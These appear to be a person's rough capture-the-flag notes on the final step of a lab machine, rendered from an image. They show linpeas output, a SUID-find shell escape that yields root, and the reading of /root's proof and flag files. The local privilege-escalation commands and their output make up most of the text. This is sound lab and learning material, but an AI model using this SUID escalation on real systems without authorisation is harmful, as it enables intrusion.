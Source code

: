 **Copied from linpeas\--  full**

**10\) SUID: \-rwsr\-xr\-x 1 root root 159K Jan  6  2012 /usr/bin/find
\-rwsr\-xr\-x 1 root root 9\.5K Jun 20  2017 /usr/lib/pt\_chown  \-\-\-\>  GNU\_glibc\_2\.1/2\.1\.1\_\-6\(08\-1999\)

Stopping here to check gtfobins and try this, haven't seen it:
****
find \. \-exec /bin/sh \-p \\; \-quit****
**
**Tried this, failed:
**
find \. \-exec /bin/sh \\; \-quit
/bin/sh: 0: Illegal option \-p
/bin/sh: 0: Illegal option \-p
/bin/sh: 0: Illegal option \-p
id
uid=33\(www\-data\) gid=33\(www\-data\) groups=33\(www\-data\)

**Tried without \-p, OH SHIT:

**find \. \-exec /bin/sh \\; \-quit

id
uid=33\(www\-data\) gid=33\(www\-data\) euid=0\(root\) groups=0\(root\),33\(www\-data\)

**Looks like I am group root now, wowsers\.\. 

**ls /root
proof\.txt
thefinalflag\.txt
ls /root \-lsaF
total 36
4 drwx\-\-\-\-\-\-  4 root root 4096 Apr 11 03:33 \./
4 drwxr\-xr\-x 23 root root 4096 Feb 19  2019 \.\./
4 drwx\-\-\-\-\-\-  2 root root 4096 Mar 29 22:56 \.aptitude/
4 \-rw\-\-\-\-\-\-\-  1 root root    6 Mar 30 00:31 \.bash\_history
4 \-rw\-r\-\-r\-\-  1 root root  949 Feb 19  2019 \.bashrc
4 drwxr\-xr\-x  3 root root 4096 Feb 19  2019 \.drush/
4 \-rw\-r\-\-r\-\-  1 root root  140 Nov 20  2007 \.profile
4 \-rw\-r\-\-r\-\-  1 root root   33 Apr 11 03:33 proof\.txt
4 \-rw\-r\-\-r\-\-  1 root root  173 Feb 19  2019 thefinalflag\.txt
cat /root/proof\.txt
66877b1efa7e72bad25c67adaf8f2e03
cat /root/thefinalflag\.txt
Well done\!\!\!\!

Hopefully you've enjoyed this and learned some new skills\.

You can let me know what you thought of this little journey
by contacting me via Twitter \- @DCAU7


